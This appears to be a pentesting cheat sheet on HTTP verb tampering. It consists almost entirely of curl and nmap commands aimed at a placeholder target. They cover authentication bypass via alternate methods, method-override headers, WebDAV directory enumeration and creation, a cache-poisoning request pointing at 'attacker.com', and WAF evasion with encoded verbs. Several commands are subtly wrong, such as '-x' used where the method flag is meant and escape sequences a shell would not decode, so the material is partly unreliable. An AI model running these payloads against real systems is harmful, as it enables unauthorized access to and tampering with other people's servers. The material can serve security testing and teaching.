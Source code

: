 
# HTTP Verb Tampering

### Bypassing Basic Authentication

```c
curl -X GET http://target.com/restricted
curl -X POST http://target.com/restricted 
curl -X PUT http://target.com/restricted
curl -X DELETE http://target.com/restricted
curl -X OPTIONS http://target.com/restricted
curl -X HEAD http://target.com/restricted
curl -X TRACE http://target.com/restricted
```

### Dangerous Verb Combinations

```c
# Bypass with mixed case
curl -x gEt http://target.com/admin

# Null verb tunneling
curl -X "GET /admin HTTP/1.1" http://target.com

# Verb spoofing via headers
curl -H "X-HTTP-Method-Override: PUT" -X POST http://target.com/update
```

### WebDAV-Specific Exploits

```c
# PROPFIND to enumerate directories
curl -X PROPFIND http://target.com/webdav/

# MKCOL to create directories
curl -X MKCOL http://target.com/new_folder

# SEARCH for file discovery
curl -X SEARCH -H "Content-Type: text/xml" --data-binary @search.xml http://target.com
```

### Automated Testing with Nmap

```c
nmap -p 80,443 --script http-methods,http-auth-finder target.com
```
### Advanced Exploitation Techniques

#### HTTP Method Override

```c
# Using different override headers
curl -H "X-HTTP-Method: DELETE" -X POST http://target.com/resource
curl -H "X-Method-Override: PUT" -X POST http://target.com/upload
```

#### JSON API Exploitation

```c
# Verb tampering in REST APIs
curl -X GET -H "Content-Type: application/json" http://api.target.com/users \
  -d '{"method":"DELETE","id":123}'
```
#### Cache Poisoning Vectors

```c
# Using HEAD to poison cache
curl -X HEAD -H "X-Forwarded-Host: attacker.com" http://target.com/static/logo.png
```

### Defensive Bypass Techniques

```c
# Bypassing WAFs with verb obfuscation
curl -X "G\u0045T" http://target.com/admin
curl -X "G%45T" http://target.com/admin
curl -X "G\x45T" http://target.com/admin
```
### Detection Payloads

 ```c
 # Test for verb tampering vulnerabilities
curl -X "ARBITRARY" http://target.com -I
curl -X "JUNK" http://target.com -I
```

